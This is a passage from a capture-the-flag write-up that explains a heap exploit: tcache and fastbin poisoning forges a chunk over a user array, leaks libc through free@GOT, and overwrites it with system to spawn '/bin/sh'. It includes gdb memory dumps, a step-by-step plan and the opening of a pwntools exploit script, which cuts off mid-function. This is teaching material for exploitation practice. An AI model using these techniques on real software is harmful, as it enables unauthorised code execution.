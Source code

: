 This will result in our `fastbin` and `tcache_bin` looking like this:
{% highlight bash %}
# fastbin:
fastbin[0]: 0x0

# tcachebin:
[heap] : 0x603050 --> 0x6020e0 --> 0x603780 --> 0x0 
{% endhighlight %}

As we can see, `userArr` now sits at the head of our `tcache_bin`, giving us the ability to write into it upon the next memory allocation!

Now we can craft the following fake `groupName` chunk upon the next memory allocation, that sits on top of the `userArr[]` array:
{% highlight bash %}
gdb-peda$ x/10xg $userArr
0x6020e0:       0x0068732f6e69622f      0x00000000006020e0 <-- "/bin/sh\0" ; userArr[]
0x6020f0:       0x0000000000602018      0x0000000000000000 <-- free@GOT 
0x602100:       0x0000000000000000      0x0000000000000000
0x602110:       0x0000000000000000      0x0000000000000000
0x602120:       0x00000000006037c0      0x0000000000000000
{% endhighlight %}

This allows us to leak a libc pointer by printing `userArr[1]->groupName` which is actually a pointer to `free@GOT`. 
It also conveniently allows us to overwrite `free@GOT` by editing `userArr[1]`'s group!

So from here we can simply overwrite `free@GOT` with `system@libc` and delete user 1 to call `system("/bin/sh");`, granting us a shell!

Putting everything together, we can get the flag using the following exploit. 

## Exploit
{% highlight python %}
#!/usr/bin/env python

'''
1.  allocate enough users/groups to fill tcache bin and start using fastbin
2.  create 2 different groups w/same name by editing a user's group and propogating change
3.  fill tcache bins and put chunks in fastbin by deleting users
3.1 delete user in one of groups in step 2. to create UAF scenario
4.  leak heap using UAF from step 3.1
5.  overwrite fastchunk FD ptr using UAF from step 3.1 and point it to userArr-0x10
6.  perform 4 rds of 2x chunk allocations to empty tcache bin + move fastbin into tcache bin
7.  overwrite userArr with forged groupName chunk
8.  leak libc by printing user 1's groupName
9.  overwrite free@GOT w/system by editing user 1's groupName
10. delete user 1
'''

from pwn import *
import sys  

def addUser(name, group, age):
    r.sendlineafter("Action:", "0")
    r.sendlineafter("name:", name)
    r.sendlineafter("group:", group)
    r.sendlineafter("age:", str(age))

def displayGroup(groupName):
    r.sendlineafter("Action:", "1")
    r.sendlineafter("name:", groupName)

def displayUser(idx):
    r.sendlineafter("Action:", "2")